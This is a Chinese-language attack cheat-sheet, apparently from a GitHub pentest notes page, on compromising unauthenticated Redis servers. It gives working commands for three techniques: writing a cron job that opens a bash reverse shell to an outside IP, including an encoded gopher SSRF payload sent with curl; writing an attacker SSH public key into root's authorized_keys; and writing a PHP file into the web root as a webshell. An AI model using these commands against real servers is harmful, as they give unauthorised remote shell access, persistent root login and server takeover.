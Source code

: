     **利用计划任务执行命令反弹 shell**

    在 redis 以 root 权限运行时可以写 crontab 来执行命令反弹 shell 先在自己的服务器上监听一个端口 `nc -lvnp 4444` 然后执行命令:
    ```bash
    config set dir /var/spool/cron
    config set dbfilename root
    set xxx "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.1.1/4444 0>&1\n\n"
    save
    ```

    gopher payload
    ```
    curl -v "gopher://127.0.0.1:6379/_*1%0d%0a\$8%0d%0aflushall%0d%0a*3%0d%0a\$3%0d%0aset%0d%0a\$1%0d%0a1%0d%0a\$64%0d%0a%0d%0a%0a%0a*/1* * * * bash -i >&/dev/tcp/192.168.1.1/8888>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a\$6%0d%0aconfig%0d%0a\$3%0d%0aset%0d%0a\$3%0d%0adir%0d%0a\$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a\$6%0d%0aconfig%0d%0a\$3%0d%0aset%0d%0a\$10%0d%0adbfilename%0d%0a\$4%0d%0aroot%0d%0a*1%0d%0a\$4%0d%0asave%0d%0aquit%0d%0a"
    ```

    **写 ssh-keygen 公钥然后使用私钥登录**

    在以下条件下,可以利用此方法
    1. Redis 服务使用 ROOT 账号启动
    2. 服务器开放了 SSH 服务,而且允许使用密钥登录,即可远程写入一个公钥,直接登录远程服务器.

    首先在本地生成一对密钥
    ```bash
    ssh-keygen -t rsa
    ```

    然后执行命令:
    ```bash
    # 将公钥的内容写到一个文本中命令如下
    (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > test.txt

    # 将里面的内容写入远程的 Redis 服务器上并且设置其 Key 为 test命令如下
    cat test.txt | redis -cli -h <hostname> -x set test
    redis-cli -h <hostname>
    keys *
    get test
    config set dir "/root/.ssh"
    config set dbfilename "authorized_keys"
    save
    ```
    保存后可以直接利用公钥登录 ssh

    如果报错 `(error) ERR Changing directory: No such file or directory` 可能是因为 root 从来没有登录过

    **往 web 物理路径写 webshell**

    当 redis 权限不高时,并且服务器开着 web 服务,在 redis 有 web 目录写权限时,可以尝试往 web 路径写 webshell,执行以下命令
    ```bash
    config set dir /var/www/html/
    config set dbfilename shell.php
    set x "<?php phpinfo();?>"
    save
    ```
    即可将 shell 写入 web 目录(web 目录根据实际情况)
